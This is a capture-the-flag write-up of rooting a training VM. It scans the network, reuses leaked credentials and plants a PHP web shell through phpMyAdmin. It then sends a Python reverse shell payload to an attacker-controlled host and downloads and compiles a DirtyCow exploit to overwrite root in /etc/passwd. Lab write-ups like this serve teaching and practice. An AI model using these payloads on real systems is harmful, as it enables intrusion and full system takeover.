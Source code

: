 # Boot2Root Writeup 2

Now we can get to actual hacking the machine.
First let's enumerate the machine:

## Port scanning.
Obviously we don't have the ip of the machine. So we need to get that ip first. You can do that by scanning a range of ip addresses.

Doing that to 10.x.x.x would take so much time. But we have already some informations we can use to limit that ip range.

This works on 1337 school. I don't really know how it would be for other schools. Or if you are trying at home. Each floor has its own range. I'm working in the E2, so my virtual machine ip address will be `10.12.x.x`, still scanning this range would take so much time. And will output lot of useless information about all the machines in that floor.

Now if you create a virtual machine and set its network to bridged. It will be under the following range : `10.12.100.x`. This is a scannable range of ip addresses.

Lets go ahead and scan it.
```
$> nmap 10.12.100.x/24
```

![alt text](img/nmap_scan_result.png "NMAP Results")

Let's check what we have on port 80:

![alt text](img/port_80.png "Port 80.")

Nothing really important. I tried looking at the source page, but nothing.

Let's see what we got on port 443:

![alt text](img/port_443.png "Port 443.")

This is weird. Let's see what we can get from a simple dirb.

For this command I installed a simple Kali Linux virtual machine. Then I run `dirb` with `common.txt` to see if any files exists.
I ran it on port 80, nothing was interesting. But all on port 443.
```
$> dirb https://10.12.100.226/ /usr/share/wordlist/dirb/common.txt
```

![alt text](img/dirb_result.png "dirb Command.")

Now we have 3 main directories to work with `forum`, `phpmyadmin`, `webmail`. Let's enumerate the forum first.

![alt text](img/forum_main_page.png "Froum Main")

After checking all the posts, I found some kind of logs under `Problem login ?`. After reading it we find that there's a password logged as a user.

![alt text](img/forum_pass.png "Forum Enumeration")

Notice that they tried a weird user before trying `lmezard`, but the connection following that worked perfectly.
It's like they tried the password as the user as a mistake.
Using the following credentials we can login into the forum.
```
lmezard
!q\]Ej?*5K5cy*AJ
```

![alt text](img/user_page.png "Succeful login.")

I tried same credentials for `phpmyadmin` and `webmail`, it didn't work.
The forum had nothing interesting or that can help us through our hacking.

But you can see in the image above, we have an email. Trying it with the same password in `phpmyadmin` didn't work.

But it worked with `webmail`.
```
laurie@borntosec.net
!q\]Ej?*5K5cy*AJ
```

![alt text](img/webmail_main.png "Webmail")

Let's see what we have on `DB ACCESS`

![alt text](img/webmail_db_access.png "DB_ACCESS")

Nice so I'm guessing they're talking about `phpmyadmin`. So let's go ahead and try it.
```
root
Fg-'kKXBj87E:aJ$
```

![alt text](img/phpmyadmin_main.png "phpmyadmin")

After some enumeration and trying to see if I can find anything interesting. It was an empty handed enumeration.
But still, I didn't notice that I had root access in phpmyadmin until later.

And after some googling, I found a command that can let me upload a simple php command as a file in the system, a webshell may I 
say.

```
select '<?php system($_GET[cmd]);?>'INTO OUTFILE '/var/www/forum/DIR/cmd.php'
```

The problem is that I had to find a directory I can write on and then access it via a simple request.
I went to dirb again.

![alt text](img/phpmyadmin_drb.png "phpmyadmin dirb")

I tried many directories but the only one that I was able to write on is `templates_c`

![alt text](img/webshell_phpmyadmin.png "phpmyadmin webshell")

Okey so now let's try it in the browser and see if it's actually working.
```
https://10.12.100.226/forum/templates_c/cmd.php?cmd=whoami
```

![alt text](img/webshell.png "webshell working")

A reverse shell would make our life so much easier. But first I had to check if python existed on the machine.
```
https://10.12.100.226/forum/templates_c/cmd.php?cmd=python -c 'print("hello")
```

![alt text](img/python_test.png "testing python")

It does, so this will be our payload :
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADD_HOST", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

#lets url encode this just so we can make sure it will work.

python%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.0.0.1%22%2C4242))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bpty.spawn(%22%2Fbin%2Fsh%22)%27%0A
```

But before sending the request we have to listen on port 4444 on our host machine.
```
$> nc -nlv 4444

```

We send the request and boom we have a shell.

![alt text](img/reverse_shell_working.png "Reverse Shell")

## Privelege Escalation

Doing `uname -a` to see what kind of kernel we have here.

![alt text](img/uname_a.png "uname -a")

We can also run a script named `linpeas` or `Linux Privelege Escalation`, you can find its link [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).(This is not how i solved this step. I just wanted to point it out, cause I have worked with it in hackthebox, tryhackme many times.)

![alt text](img/linpeas.png "uname -a")

Searching `linux 3.2` in google or using `linpeas` will tell us that this version is exploitable. [Dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) is what we looking for here.

## DirtyCow
DirtyCow is a race condition(similar to the one in snowcrash). Used to give a normal user the ability to access, write, edit file system, or files with unique permissions.
It exists in the Linux kernel's memory subsystem. You can read more about it on their [Dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) official wiki.

Let's chose our exploit :

![alt text](img/dirtyc0w.png "dirtyc0w")

Basically anyone of these can work. We'll use the last one, since its the easier one to work with. It changes the `/etc/passwd/` root password with a password you specify it.

Let's upload the .c file in our `/tmp` directory in the machine.

```
$> wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

Now let's compile it. You will need 2 flags `-lcrypt` and `-lpthread`. I looked up the reason why and it's just something related to linking the libraries.

```
$> gcc dirty.c -lcrypt -lpthread
```

Let's start our program :

![alt text](img/dirtycow_action.png "DirtyC0w in action")

Basically it asks us for a new password to put it in `/etc/passwd`

I `ctrl + c` and launched a new reverse shell then I cated `/etc/passwd/` and the file was actually edited.

![alt text](img/etc_passwd.png "Cating /etc/passwd")

And the root user was changed to `firefart` xddd.

Let's go and switch the user.

![alt text](img/rooting_pt2.png "Root Finally")

Voila, we have root again.
